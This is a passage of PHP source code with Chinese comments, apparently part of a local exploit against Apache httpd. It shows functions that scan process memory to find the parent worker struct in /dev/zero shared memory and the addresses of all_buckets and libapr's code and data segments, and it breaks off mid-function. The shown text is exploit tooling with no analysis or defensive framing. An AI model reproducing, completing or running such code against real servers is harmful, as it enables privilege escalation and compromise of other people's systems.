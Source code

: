 

    function locate_self_parent_struct_addr()//获取共享内存中，当前parent的首地址
    {
        $my_pid = getmypid();
        $shm_region = get_mem_region("/dev/zero");
        if(!count($shm_region))
            return 0;
        //因为parent数组，总是位于第一个/dev/zero中，所以，我们只搜索第一个
        echo "/dev/zero start addr:0x".dechex($shm_region[0][0])."\n";
        echo "/dev/zero end addr:0x".dechex($shm_region[0][1])."\n";


        for($i =0;$i<4096;$i++){
            $pid = read_mem_dword($shm_region[0][0]+$i);//pid_t在我的环境中，为4字节大小
            if($pid == $my_pid){
                return $shm_region[0][0]+$i;//找到直接返回
            }
        }

        return 0;
    }

    //获取all_buckets的地址
    function locate_all_buckets_addr()
    {
        $heap_region = get_mem_region("heap");//在我的环境中，all_bucket位于第一个heap中
        $libapr_region = get_mem_region("libapr-");
        if(!count($heap_region) || !count($libapr_region))
            return 0;
        $heap_start_addr = $heap_region[0][0];
        $heap_end_addr = $heap_region[0][1];

        echo "heap start addr:0x".dechex($heap_start_addr)."\n";
        echo "heap end addr:0x".dechex($heap_end_addr)."\n";

        $libapr_text_start_addr = 0;
        $libapr_data_start_addr = 0;
        $libapr_text_end_addr = 0;
        $libapr_data_end_addr = 0;
        for($i = 0;$i<count($libapr_region);$i++){
            if($libapr_region[$i][2] === "r-xp"){//代码段
                $libapr_text_start_addr = $libapr_region[$i][0];
                $libapr_text_end_addr = $libapr_region[$i][1];
                continue;
            }

            if($libapr_region[$i][2] === "r--p"){//const data
                $libapr_data_start_addr = $libapr_region[$i][0];
                $libapr_data_end_addr = $libapr_region[$i][1];
                continue;
            }
        }

        echo "libapr text start addr:0x".dechex($libapr_text_start_addr)."\n";
        echo "libapr text end addr:0x".dechex($libapr_text_end_addr)."\n";
